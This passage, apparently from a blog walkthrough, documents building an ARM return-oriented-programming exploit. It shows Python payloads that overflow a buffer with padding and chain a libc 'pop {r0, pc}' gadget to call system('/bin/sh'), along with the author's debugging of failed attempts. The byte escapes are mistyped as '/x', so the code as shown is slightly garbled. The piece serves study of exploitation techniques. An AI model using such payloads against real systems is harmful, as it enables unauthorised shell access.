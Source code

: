     payload = 'A' * 132
    payload += pack('<I', libc + 0x000259d3) #The gadget LDR r0, [SP, #4]
    payload += 'A' * 4
    payload += "/x7c/x40/xfb/xb6"
    payload += 'A' * 24
    payload += "/x8c/xb4/xf0/xb6"
    print payload

However, this still didn't work. Some examination revealed that since the BL swapped the program to Thumb mode, the PC got sent to the wrong place (1 byte away from the system() call) and the system crashed from there as the address didn't align to Thumb. This requires some further investigation as I'm not so confident on my understanding of this.

------------------------------------------------------------

## **Back to Square One?**


So, I couldn't find a satisfying **LDR r0, [SP]** instruction. Were there any alternatives? After thinking for a bit, I realised that I could try, instead, **popping** system() and "/bin/sh" off the stack into r0 and pc. So, lets open up Ropper again and do "**"search /1/ pop{r0"**.

![ropper3.png]({{site.baseurl}}/assets/images/ropper3.png)
_The perfect gadget?_


And straight off the bat we see that there is a **pop {r0, pc}** gadget! Now we can alter our code to include this. Let's first check out the new flow that we require:
![stack3.png]({{site.baseurl}}/assets/images/stack3.png)
![stack4.png]({{site.baseurl}}/assets/images/stack4.png)

_Notice that bin/sh and system() are inverted compared to the previous try_


Now, our payload looks like:

	#!/usr/bin/python
    from struct import pack
    libc = 0xb6ede000 #Base address of libc
    
    payload = 'A' * 132
    payload += pack('<I', libc + 0x0000726d) #The gadget pop {r0, PC}
    payload += "/x7c/x40/xfb/xb6/x8c/xb4/xf0/xb6"
    print payload

Lets try it out (Please work)

![]({{site.baseurl}}/assets/images/failure.png)
_Segmentation Fault... again._


Another failure? Yet the objective seems in reach --- the next instruction should've been to carry out the system() command already. What happened?


As it turned out, I did not realise what I needed to do to fix this until I actually cracked it with another gadget. For the sake of not prolonging this much further, I'll cover the small mistake I made.
